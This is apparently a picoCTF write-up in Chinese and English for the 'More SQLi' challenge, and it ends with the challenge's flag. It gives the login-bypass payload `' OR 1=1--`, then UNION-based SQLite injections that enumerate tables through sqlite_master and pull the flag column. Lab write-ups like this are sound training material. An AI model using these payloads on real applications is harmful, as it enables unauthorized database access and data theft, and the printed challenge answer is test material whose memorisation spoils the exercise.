

# More SQLi

## 題目描述 (Description)

Can you find the flag on this website.

### 提示 (Hints)

1. Hint 1
   SQLiLite

## 解題思路 (Solution Walkthrough)

1.  **第一步**：進入網站隨便打一組帳號密碼，發現他返回以下結果
   ```
   username: admin
   password: 123
   SQL query: SELECT id FROM users WHERE password = '123' AND username = 'admin'
   ```

2.  **第二步**：他 SQL query 都給你了，於是弄個簡單的 injection
   ```
   username: admin
   password: 123' OR 1=1--
   ```

3.  **第三步**：進到網頁發現可以查詢城市，於是先試試看能不能顯示出 sqlite 的版本
   

4.  **第四步**：我一開始使用 `Algiers ' UNION SELECT sqlite_version() --`，但可能回傳要三個欄位才能返回結果，於是之後使用 `Algiers ' UNION SELECT sqlite_version(), '', '' --` 才成功得知版本為 `3.31.1`

5.  **第五步**：接著就開始找 flag 了，我們要先找到所有的 table name
   ```
   Algiers ' UNION SELECT tbl_name, '', '' FROM sqlite_master WHERE type='table' --

   hints		
   more_table		
   offices		
   users
   ```

6.  **第六步**：有看到一個 table 叫做 more_table，感覺非常可疑，於是就去看看他裡面的資料 `Algiers ' UNION SELECT sql, '', '' FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='more_table' --`，得知創建 table 的 sql 語句為 `CREATE TABLE more_table (id INTEGER NOT NULL PRIMARY KEY, flag TEXT)`，接哲嘗試取得它的資料

7.  **第七步**：最後使用 `Algiers ' UNION SELECT id, flag, '' FROM more_table --` 成功取得 flag
   ```
   1	picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_78d0583a}	
   2	If you are here, you must have seen it
   ```
   
## Flag

```text
picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_78d0583a}
```

## 參考資料
1. [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md)